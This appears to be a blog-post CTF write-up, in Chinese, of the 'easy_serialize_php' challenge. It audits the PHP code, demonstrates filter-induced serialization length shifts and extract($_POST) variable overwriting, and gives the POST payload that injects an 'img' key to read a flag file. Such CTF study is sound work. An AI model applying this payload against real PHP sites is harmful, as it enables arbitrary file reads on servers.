


#  easy_serialize_php


it&#39;s been a long time to do ctf

  

&lt;!--more--&gt;

  

看了原理觉得自己会了，实践起来Oh My Oh My God Yes or Yes not?

  

# 审计

  

先看一下源码

  

```php

&lt;?php

  

$function = @$_GET[&#39;f&#39;];// f 可以通过GET方式进行传参

  

//对特定字词进行过滤，

function filter($img){

    $filter_arr = array(&#39;php&#39;,&#39;flag&#39;,&#39;php5&#39;,&#39;php4&#39;,&#39;fl1g&#39;);

    $filter = &#39;/&#39;.implode(&#39;|&#39;,$filter_arr).&#39;/i&#39;;

    return preg_replace($filter,&#39;&#39;,$img);

}

  
  

if($_SESSION){

    unset($_SESSION);

}

  

$_SESSION[&#34;user&#34;] = &#39;guest&#39;;

$_SESSION[&#39;function&#39;] = $function;

  

extract($_POST);

  

if(!$function){

    echo &#39;&lt;a href=&#34;index.php?f=highlight_file&#34;&gt;source_code&lt;/a&gt;&#39;;

}

  

if(!$_GET[&#39;img_path&#39;]){

    $_SESSION[&#39;img&#39;] = base64_encode(&#39;guest_img.png&#39;);

}else{

    $_SESSION[&#39;img&#39;] = sha1(base64_encode($_GET[&#39;img_path&#39;]));

}

  

$serialize_info = filter(serialize($_SESSION));

  

if($function == &#39;highlight_file&#39;){

    highlight_file(&#39;index.php&#39;);

}else if($function == &#39;phpinfo&#39;){

    eval(&#39;phpinfo();&#39;); //maybe you can find something in here!

}else if($function == &#39;show_image&#39;){

    $userinfo = unserialize($serialize_info);

    echo file_get_contents(base64_decode($userinfo[&#39;img&#39;]));

}

```

  

&lt;font size=1&gt;其实第一遍看的时候，只看出过滤和反序列化，以及三个 $function 带来的不同结果。&lt;/font&gt;

  
  

里面的关键在于

  

- `filter($img)`

  
  

- `extract($_POST)`

  
  

- `$serialize_info = filter(serialize($_SESSION));`

  
  

- `$userinfo = unserialize($serialize_info);`

  
  

  -  `echo file_get_contents(base64_decode($userinfo[&#39;img&#39;]))`

  

就写一点demo进行理解吧

  

## filter &amp; serialize

  

### get started

  

依照主要逻辑写了一个demo

  

```php

&lt;?php

//过滤（照搬）

function filter($img){

    $filter_arr = array(&#39;php&#39;,&#39;flag&#39;,&#39;pp5&#39;,&#39;php4&#39;,&#39;flag&#39;);

    $filter = &#39;/&#39;.implode(&#39;|&#39;,$filter_arr).&#39;/i&#39;;

    return preg_replace($filter,&#39;&#39;,$img);

}

  

//传入的参数值

$img = &#34;this is a demo&#34;;

  

//序列化

$n = serialize($img);

  

//过滤

$n1 = filter($n);

  

//反序列化

$n2 = unserialize($n1);

  

echo &#39;serialize: &lt;br&gt;&#39;.$n.&#39;&lt;br&gt;&#39;;

echo &#39;filter: &lt;br&gt;&#39;.$n1.&#39;&lt;br&gt;&#39;;

echo &#39;unserialize: &lt;br&gt;&#39;;

var_dump($n2);

```

  

- 当 `$img = &#34;this is a demo&#34;` 的时候，返回：

  

```txt

serialize:

s:14:&#34;this is a demo&#34;;

filter:

s:14:&#34;this is a demo&#34;;

unserialize:

this is a demo

```

  

- 当`$img = array(&#39;y&#39;=&gt; &#39;u&#39;,&#39;x&#39; =&gt; &#39;fun&#39;);`的时候，返回：

  

```txt

serialize:

a:2:{s:1:&#34;y&#34;;s:1:&#34;u&#34;;s:1:&#34;x&#34;;s:3:&#34;fun&#34;;}

filter:

a:2:{s:1:&#34;y&#34;;s:1:&#34;u&#34;;s:1:&#34;x&#34;;s:3:&#34;fun&#34;;}

unserialize:

array(2) { [&#34;y&#34;]=&gt; string(1) &#34;u&#34; [&#34;x&#34;]=&gt; string(3) &#34;fun&#34; }

```

  

一切都很正常。

  

- 当 `$img = &#34;this is a flagdemo&#34;` 的时候，返回：

  

```txt

serialize:

s:18:&#34;this is a flagdemo&#34;;

filter:

s:18:&#34;this is a demo&#34;;

unserialize:

```

  

- 当`$img = array(&#39;y&#39;=&gt; &#39;flag&#39;,&#39;php&#39; =&gt; &#39;fun&#39;);`的时候，返回：

  

```txt

serialize:

a:2:{s:1:&#34;y&#34;;s:4:&#34;flag&#34;;s:3:&#34;php&#34;;s:3:&#34;fun&#34;;}

filter:

a:2:{s:1:&#34;y&#34;;s:4:&#34;&#34;;s:3:&#34;&#34;;s:3:&#34;fun&#34;;}

unserialize:

bool(false)

```

  
  

发生了问题：

  

**这个字符串无法被正确地反序列化。**（当然这个不是重点但是有点funny）

  

因为在序列化的字符串中，`s:18`表示接下来的字符串的长度应该是18。但是在`filter()`函数处理后，字符串的实际长度变为14，所以当你尝试使用`unserialize()`函数反序列化这个字符串时，它会返回`FALSE`，并产生一个`E_NOTICE`。

  

如果是在其他题目，其实这种也很好绕过，双写 or 大小写（所以说正则表达式和白名单better at most of time）

  
  

&lt;hr&gt;

&lt;hr&gt;

  

### abandoned

  

unserialize()有一个机制

  

- `{}`**内的会进行反序列，之外的抛弃。**

  

如果`{}`内元素个数与规定的不一致会返回：**bool(false)**

  

比如：

  

`$dance = &#34;a:2:{s:3:\&#34;one\&#34;;s:4:\&#34;flag\&#34;;s:3:\&#34;two\&#34;;s:4:\&#34;test\&#34;;};s:3:\&#34;ddimg\&#34;;lajilaji&#34;;`

  

- 反序列化得到：`array(2) { [&#34;one&#34;]=&gt; string(4) &#34;flag&#34; [&#34;two&#34;]=&gt; string(4) &#34;test&#34; }`

  
  

## SESSION

  

### POST

  
  

`extract($_POST);`，作用是将 POST （看作一个数组）传入的 数组 中的元素进行变量化

  

```php

$_POST = array(

    &#39;username&#39; =&gt; &#39;John Doe&#39;,

    &#39;email&#39; =&gt; &#39;john@example.com&#39;

);

  

extract($_POST);

  

//得到

$username = &#39;John Doe&#39;;

$email = &#39;john@example.com&#39;;

  

//在之后的引用中，直接写

```

  

该函数存在的一个安全问题——操作不当会**覆盖原有变量**。

  

这也是本题的关键之处之一。

  
  

```php

//对存在的 $_SESSION进行重置 = NULL

if($_SESSION){

    unset($_SESSION);

}

  

//可以理解 $_SESSION 是一个数组，目前里面有这两个键值对

$_SESSION[&#34;user&#34;] = &#39;guest&#39;;

$_SESSION[&#39;function&#39;] = $function;

  

....

//该变量值为序列化后再过滤的 $_SESSION

$serialize_info = filter(serialize($_SESSION));

  

...

//在前提条件下 $userinfo 变量值为 反序列化 后的上面那个变量（太长了懒得打），最后通过 file_get_contents函数将 base64 解码后的 键为 img 的变量的值输出

if($function == &#39;show_image&#39;){

    $userinfo = unserialize($serialize_info);

    echo file_get_contents(base64_decode($userinfo[&#39;img&#39;]));

}

...

```

  

&lt;hr&gt;

  

简单一个demo test

  

```php

$_SESSION[&#34;user&#34;] = &#39;guest&#39;;

$_SESSION[&#39;function&#39;] = $function;

  

//before

var_dump($_SESSION);

  

echo &#34;&lt;br/&gt;&#34;;

  

extract($_POST);

//after

var_dump($_SESSION);

```

  

POST传参：`_SESSION[flag]=123f`，结果是：

  

//before

array(2) { [&#34;user&#34;]=&gt; string(5) &#34;guest&#34; [&#34;function&#34;]=&gt; string(1) &#34;f&#34; }

//after

array(1) { [&#34;flag&#34;]=&gt; string(4) &#34;123f&#34; }

  

this is

**变量覆盖**

  

&lt;hr&gt;

&lt;hr&gt;

  

# payload

  

先捋一下：

- filter进行黑名单过滤关键词和符号

- 序列化

- extract()函数存在可控变量

- 在 `$function == &#39;show_image&#39;`条件下进行输出

  

- $_SESSION 经过 **序列化** 经过 **自定义过滤** 经过 **反序列化** 最后 召唤 img 键值

  
  

所以重点来到究竟传参什么

  
  

```php

//如果不存在 img_path 就赋值 $_SESSION[&#39;img&#39;] 为 base64 编码后的 那个png

if(!$_GET[&#39;img_path&#39;]){

    $_SESSION[&#39;img&#39;] = base64_encode(&#39;guest_img.png&#39;);

}else{

    //否则就赋值为 base64 编码后又SHA-1编码后的 img_path

    $_SESSION[&#39;img&#39;] = sha1(base64_encode($_GET[&#39;img_path&#39;]));

}

  

...

//输出的是$_SESSION中的键 img 的值

echo file_get_contents(base64_decode($userinfo[&#39;img&#39;]));

```

  

so,

传入一个抛弃原有 img 键值对的 **新_SESSION**

  

**构造（img 值要进行编码以适应解码）**：

`f = show_image`（GET传参构造条件）

`_SESSION[flagflag]=&#34;;s:3:&#34;aaa&#34;;s:3:&#34;img&#34;;s:20:&#34;L2QwZzNfZmxsbGxsbGFn&#34;;}`

  

&lt;br&gt;

&lt;br&gt;

  

经过上述$_SESSION的取经路，

- serialize构造出一个

`a:1:{s:8:&#34;flagflag&#34;;s:51:&#34;&#34;;s:3:&#34;aaa&#34;;s:3:&#34;img&#34;;s:20:&#34;L2QwZzNfZmxsbGxsbGFn&#34;;}&#34;;}`

  

- 过滤一下

`a:1:{s:8:&#34;&#34;;s:51:&#34;&#34;;s:3:&#34;aaa&#34;;s:3:&#34;img&#34;;s:20:&#34;L2QwZzNfZmxsbGxsbGFn&#34;;}&#34;;}`

  

- 真正起作用的(抛弃多余部分)

`a:1:{s:8:&#34;&#34;;s:51:&#34;&#34;;s:3:&#34;aaa&#34;;s:3:&#34;img&#34;;s:20:&#34;L2QwZzNfZmxsbGxsbGFn&#34;;}`

  

可以看到 img 键值已经出现且重写。

  

接收响应会得到

  

`$flag = &#39;flag in /d0g3_fllllllag&#39;;`

  




  

将那段字符base64 后甩入img值中，接收响应得到flag。

  

# Q

  

其实payload在进行反序列化的时候会出现问题，返回bool(false)，但是为什么依旧可以进行，有点不理解。





---

> Author:   
> URL: https://66lueflam144.github.io/posts/8f09e57/  

